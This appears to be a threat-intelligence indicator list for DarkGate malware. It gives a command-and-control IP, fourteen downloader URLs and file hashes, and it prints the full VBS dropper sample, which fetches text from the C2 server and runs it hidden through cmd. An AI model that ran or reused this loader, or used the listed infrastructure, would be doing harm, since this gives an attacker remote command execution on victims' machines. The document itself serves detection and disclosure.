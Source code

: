 # DarkGate Indicators of Compromise (IOC)

These IOCs were released as part of PTI team research.

## Command & Control Server
```
94.228.169.143
```

## Downloader URL
```
https://suratpeo.go.th/isua/
https://chatpipoca.net/trl/
https://smahrec.com/iat/
https://axecapital.ro/hi/
https://cosmosiit.com/oseu/
https://bligevale.co.zw/vr/
https://hunter-g.com/eein/
https://elburro.net/ofm/
https://superdreadiswag.com/frs/
https://winstonandfriendz.ca/ueiq/
https://hmas.mx/relo/
https://medsure.com.br/nma/
https://journeotravel.com/ii/
https://jhenaidahpoly.gov.bd/ninh/
```

## VBS Script
| MD5                              | SHA1                                     | SHA256                                                           |
| :------------------------------- | ---------------------------------------- | ---------------------------------------------------------------- |
| cb8f513d616a7e804694240bc3100f8a | 8eb4a6d8e107924222352c19aaeca7dbdc8de887 | 761a6c695940da83c3bfe42aae7e36792b300154f83a4c0dcaf47bb4a6497018 | 

```
osysrw = "Shell.Application"
lbjejjdjin = "cmd"
if lbjejjdjin = "a" then
MsgBox "Libr"
end if

olgprulvdluwo="http://94.228.169.143:2351/ghexmaeh"
gbdbbf="WINHTTP.WinHTTPRequest.5.1"
if lbjejjdjin = "a" then
MsgBox "Libr"
end if


With CreateObject(gbdbbf)
.Open "post", olgprulvdluwo, False  
.send
gbdbbf2 = .responseText
CreateObject(osysrw).ShellExecute lbjejjdjin, gbdbbf2 ,"","",0
End With
```
